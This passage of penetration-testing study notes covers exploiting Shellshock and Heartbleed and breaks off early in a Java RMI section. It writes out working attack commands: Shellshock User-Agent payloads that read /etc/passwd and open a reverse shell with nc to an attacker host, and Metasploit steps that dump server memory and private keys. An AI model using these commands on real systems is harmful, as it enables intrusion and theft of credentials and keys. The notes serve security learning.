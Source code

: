 One of the primary attack vectors seen was the modification of the `User-Agent` of a HTTP request, in order to include a Shellshock payload. This payload contained a ping command destined for the attacker machine:
`User-Agent: () { :; }; ping <AttackerIP> -c 3 -p <PayloadString>`: if the attacker machine receives this specific string, then this serves as confirmation that the system is vulnerable.

The *Dirsearch* (similar to Dirb or Dirbuster) tool can be used to locate CGI programs on a target server:
`/root/Desktop/tools/dirsearch/dirsearch.py -u http://<TargetIP> -e cgi -r`: where `-e` stands for "extensions" and `-r` for "recursive".

`nmap --script http-shellshock --script-args uri=/<CGIURI> <TargetIP> -p80`: to check if the CGI program is vulnerable.
`wget -U "() { :; }; echo \"Content-type: text/plain\"; echo; /bin/cat /etc/passwd" http://<TargetIP>/<CGIURI> && cat <CGIFile>`: to exploit the Shellshock vulnerability showing the `/etc/passwd` content, where `-U` specifies the User-Agent.
`wget -U "() { :; }; echo; /bin/nc <AttackerIP> <AttackerPort> -e /bin/sh" http://<TargetIP>/<CGIURI>`: to exploit the Shellshock vulnerability spawning a reverse shell.

### Exploiting Heartbleed - Study Guide

*Heartbleed* is a critical security vulnerability discovered in the OpenSSL protocol in 2014. It resulted from a programming error in OpenSSL's code handling the TLS/SSL protocol. Heartbleed allowed attackers to access sensitive server memory by sending manipulated Heartbeat requests to vulnerable servers. These requests, part of the Heartbeat protocol, are small packets of data periodically sent to maintain the connection between devices. While Heartbeat was designed to enhance the stability and efficiency of TLS/SSL connections, the Heartbleed vulnerability stemmed from an implementation error in OpenSSL's Heartbeat packet handling, enabling unauthorized access to sensitive server data. Attackers could exploit Heartbleed to retrieve sensitive information from server memory, such as SSL encryption keys, user authentication credentials, and more.

`nmap --script ssl-heartbleed <TargetIP>`: to identify a vulnerable OpenSSL implementation on the target.
`msfconsole -q`, `search heartbleed`, `use auxiliary/scanner/ssl/openssl_heartbleed`, `show actions`, `set ACTION DUMP`, `show options`, `set RHOSTS <TargetIP>`, `run`: to run the Heartbleed attack.

We have three possible actions:
- DUMP	Dump memory contents
- KEYS	Recover private keys from memory
- SCAN	Check hosts for vulnerability

The results are stored in the `loot` directory in a `.bin` file. We can extract them with `strings <LootBinFile>`.

Note that you can get different memory segment each time you execute the attack, so try it multiple times.

### Exploiting Java RMI Registry - Study Guide 

The *Java RMI* (Remote Method Invocation) framework is a Java API that enables developers to create distributed applications in Java. It facilitates communication between objects running in different Java Virtual Machines (JVMs) across a network. The Java RMI framework allows for remote method invocation, where a method is invoked on a remote object as if it were a local object, abstracting the complexities of network communication.
